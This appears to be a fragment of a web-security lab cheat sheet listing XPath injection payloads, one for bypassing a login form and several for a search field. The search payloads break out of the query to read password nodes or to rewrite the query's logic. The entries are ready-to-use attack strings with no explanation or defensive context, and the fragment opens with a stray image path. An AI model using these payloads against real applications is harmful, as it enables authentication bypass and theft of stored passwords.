 ##### XML/XPath Injection (Login Form)
~~~
password=' or id='2
~~~
---
##### XML/XPath Injection (Search)
~~~
genre=')]/password | a[contains(a,'
genre=') or contains(genre, '
genre=') or not(contains(genre, 'xxx') and '1'='2
~~~
